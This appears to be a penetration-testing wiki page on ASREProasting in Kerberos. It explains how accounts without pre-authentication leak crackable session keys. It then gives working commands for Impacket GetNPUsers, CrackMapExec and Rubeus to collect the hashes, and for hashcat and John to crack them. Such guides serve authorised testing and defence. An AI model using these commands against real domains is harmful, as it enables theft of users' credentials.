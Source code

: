 # 88 - Kerberos

## Theory

The Kerberos authentication protocol works with tickets in order to grant access. A ST (Service Ticket) can be obtained by presenting a TGT (Ticket Granting Ticket). That prior TGT can be obtained by validating a first step named "pre-authentication" (except if that requirement is explicitly removed for some accounts, making them vulnerable to **ASREProast**).

The pre-authentication requires the requesting user to supply its secret key (DES, RC4, AES128 or AES256) derived from the user password. Technically, when asking the KDC (Key Distribution Center) for a TGT (Ticket Granting Ticket), the requesting user needs to validate pre-authentication by sending a timestamp encrypted with it's own credentials. It ensures the user is requesting a TGT for himself. Once validated, the TGT is then sent to the user in the `KRB_AS_REP` message, but that message also contains a session key. That session key is encrypted with the requested user's NT hash.

Because some applications don't support Kerberos preauthentication, it is common to find users with Kerberos preauthentication disabled, hence allowing attackers to request TGTs for these users and crack the session keys offline. This is ASREProasting.

While this technique can possibly allow to retrieve a user's credentials, the TGT obtained in the `KRB_AS_REP` messages are encrypted cannot be used without knowledge of the account's password.



## Practice

{% hint style="info" %}
While this attack can be carried out without any prior foothold (domain user credentials), there is no way of finding out users with `Do not require Kerberos preauthentication` set without that prior foothold.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [GetNPUsers](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetNPUsers.py) (Python) can get TGTs for the users that have the property `Do not require Kerberos preauthentication` set.

```bash
# users list dynamically queried with an LDAP anonymous bind
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# with a users file
GetNPUsers.py -usersfile users.txt -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/'

# users list dynamically queried with a LDAP authenticated bind (password)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -dc-ip $KeyDistributionCenter 'DOMAIN/USER:Password'

# users list dynamically queried with a LDAP authenticated bind (NT hash)
GetNPUsers.py -request -format hashcat -outputfile ASREProastables.txt -hashes 'LMhash:NThash' -dc-ip $KeyDistributionCenter 'DOMAIN/USER'

```

This can also be achieved with [CrackMapExec](https://github.com/mpgn/CrackMapExec) (Python).

```bash
crackmapexec ldap $TARGETS -u $USER -p $PASSWORD --asreproast ASREProastables.txt --KdcHost $KeyDistributionCenter
```

The [kerberoast](https://github.com/skelsec/kerberoast) pure-python toolkit is a good alternative to the tools mentioned above.
{% endtab %}

{% tab title="Windows" %}
The same thing can be done with [Rubeus](https://github.com/GhostPack/Rubeus) from a session running with a domain user privileges.

```bash
Rubeus.exe asreproast  /format:hashcat /outfile:ASREProastables.txt
```
{% endtab %}
{% endtabs %}

Depending on the output format used (`hashcat` or `john`), [hashcat](https://github.com/hashcat/hashcat) and [JohnTheRipper](https://github.com/magnumripper/JohnTheRipper) can be used to try [cracking the hashes](broken-reference).

```bash
hashcat -m 18200 -a 0 ASREProastables.txt $wordlist
```

```bash
john --wordlist=$wordlist ASREProastables.txt
```

## Resources:

{% embed url="https://www.thehacker.recipes/ad/movement/kerberos/asreproast" %}
